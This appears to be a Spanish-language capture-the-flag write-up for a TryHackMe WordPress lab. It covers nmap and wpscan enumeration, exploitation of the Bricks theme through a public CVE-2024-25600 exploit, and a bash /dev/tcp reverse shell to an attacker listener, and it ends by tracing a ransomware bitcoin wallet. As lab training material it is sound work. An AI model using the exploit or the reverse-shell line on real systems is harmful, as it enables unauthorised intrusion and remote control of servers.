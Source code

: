 # Introducción

BRick PRes Media se utiliza para crear una nueva web con un tema que representa a una nueva pared renovada usando 3 mmillones de bricks bytes.

No olvidemos de añadir la URL a /etc/hosts

```
echo "ip bricks.thm | sudo tee -a /etc/hosts
```

# Conectividad

![image](https://github.com/user-attachments/assets/7a11d5e3-9986-4361-b462-01e96fefb860)

# Enumeración

```
udo nmap -sCV -T4 --min-rate 4000 bricks.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-24 08:15 GMT
Nmap scan report for bricks.thm (10.10.54.211)
Host is up (0.0048s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    WebSockify Python/3.8.10
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 405 Method Not Allowed
|     Server: WebSockify Python/3.8.10
|     Date: Fri, 24 Jan 2025 08:15:09 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 472
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 405</p>
|     <p>Message: Method Not Allowed.</p>
|     <p>Error code explanation: 405 - Specified method is invalid for this resource.</p>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 501 Unsupported method ('OPTIONS')
|     Server: WebSockify Python/3.8.10
|     Date: Fri, 24 Jan 2025 08:15:09 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 500
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 501</p>
|     <p>Message: Unsupported method ('OPTIONS').</p>
|     <p>Error code explanation: HTTPStatus.NOT_IMPLEMENTED - Server does not support this operation.</p>
|     </body>
|_    </html>
|_http-server-header: WebSockify Python/3.8.10
|_http-title: Error response
443/tcp  open  ssl/ssl Apache httpd (SSL-only mode)
|_http-generator: WordPress 6.5
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache
|_http-title: Brick by Brick
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=US
| Not valid before: 2024-04-02T11:59:14
|_Not valid after:  2025-04-02T11:59:14
| tls-alpn: 
|   h2
|_  http/1.1
3306/tcp open  mysql   MySQL (unauthorized)
```

- 22 / ssh
- 80 / http
- 443 / https
- 3306 / mysql

Información relevante:

El puerto 80 nos da una repuesta 500 con lo cuál nos desvia, el puerto 443 si nos da una imagen de una página:

![image](https://github.com/user-attachments/assets/7d05727a-9f7e-472b-a4e3-6f806b6baf4a)

También como infroamación es un WebSOckify Python/3.8.10 vamos a fuzzear directorios a ver si encontramos algo interesante

Quizás no sea ni necesario, si vamos al HTML encontramos un montón de rutas donde podemos sacar información como el tema

```
<script src="https://bricks.thm/wp-content/themes/bricks/assets/js/bricks.min.js?ver=1705030332" id="bricks-scripts-js"></script>
```

Vamos a meter un wpscan, porque ya sabemos que es un wordpress a ver si sacamos algo más de info

![image](https://github.com/user-attachments/assets/d3e5b377-d268-4c77-9f44-50c5490140a7)


# Explotación

Vemos : Bricks - 1.9.5 vamos a buscar vulnerabilidades

https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT

Una vez tengamos el script deberemos seguramente instalar librerias, simplemente:

```
pip3 install repo
```

```
python3 nombre.py -u https://Bricks.thm
```

![image](https://github.com/user-attachments/assets/2ea91646-7895-41ce-a6f2-369e856b2416)

Estamos dentro

Si probamos a enumerar veremos que con esta bash poco podemos hacer, vamos a hacer una listener y un rev shell

```
bash -c 'exec bash -i &>/dev/tcp/10.10.252.25/9001 <&1'

rlwrap nc -lvnp 9001
```

Una vez hagamos esto tendremos una mejor rev shell

Encontramos si hacemos un ls el archivo de txt de la primera pregunta.

También enumeramos archivos como el wp-config en el que descubrimos el usuario root, como hint el mismo CTF nos dice que busquemos un proceso extraño. Vamos a enumerar procesos.

```
systemctl list-units --type=service --state=running
```

```
ubuntu.service                                 loaded active running TRYHACK3M
```

Tiene toda la pinta que es este

```
ystemctl cat ubuntu.service
systemctl cat ubuntu.service
# /etc/systemd/system/ubuntu.service
[Unit]
Description=TRYHACK3M

[Service]
Type=simple
ExecStart=/lib/NetworkManager/nm-inet-dialog
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

Si nos vamos al directorio del servicio el/lib/NetworkManager

tenemos un archivo .conf si intentamos leerlo no encontrarmeos nada porque hay demasiados logs, simplemente hacemos un head archivo

![image](https://github.com/user-attachments/assets/340911fc-2525-4c58-b95c-3027dab0961e)

Encontramos pareces er una ID de bloockchain pero codificado vamos a probarlo por ciberchief

```
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa
```

Aún así parece ser que no es la blockchain

Parece ser que se componen exactamente por la mitad osea que son o dos blockchain o uno y partido

```
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```

si nos vamos a blockhair podemos ver las transacciones

https://blockchair.com/bitcoin/address/bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa

![image](https://github.com/user-attachments/assets/15c7206c-c8f9-46bf-b7bd-9ad7e9d501f3)

![image](https://github.com/user-attachments/assets/120eb90b-734a-4113-8bd1-7680a0c4ce08)

Parece ser que dicha blockchain se refiere al ramsomware lookpik

https://ofac.treasury.gov/recent-actions/20240220

GG!!!!!!!!!!!!

Parece ser que ha sido una CTF sin necesidad de escalar privilegios si no de aprender sobre blockchain ;)
